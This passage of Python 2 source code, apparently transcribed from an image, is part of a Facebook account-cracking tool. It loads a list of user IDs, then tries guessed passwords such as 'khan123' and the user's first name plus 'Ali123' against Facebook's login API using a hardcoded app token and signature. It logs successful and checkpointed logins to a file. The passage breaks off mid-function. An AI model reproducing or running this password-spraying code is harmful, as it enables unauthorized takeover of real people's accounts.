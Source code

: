 		print 42*"\033[1;96m="
		try:
			idlist = raw_input('\x1b[1;96m \x1b[1;93mEnter File Path  \x1b[1;91m: \x1b[1;97m')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print '\x1b[1;96m \x1b[1;91mFile Not Found'
			raw_input('\n\x1b[1;96m[ \x1b[1;97mBack \x1b[1;96m]')
			super()
	elif peak =="0":
		menu()
	else:
		print "\033[1;96m \x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;96m \033[1;93mTotal IDs \033[1;91m: \033[1;97m"+str(len(id))
	jalan('\033[1;96m \033[1;93mStarting \033[1;97m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;96m[\033[1;97m \033[1;96m] \033[1;93mCracking \033[1;97m"+o),;sys.stdout.flush();time.sleep(1)
	print
	print('\x1b[1;96m \x1b[1;93mTo Stop Process Press CTRL Then Press z')
	print 42*"\033[1;96m="
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('khan123')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m |\x1b[1;97m ' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = b['first_name']+'Ali123'
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]: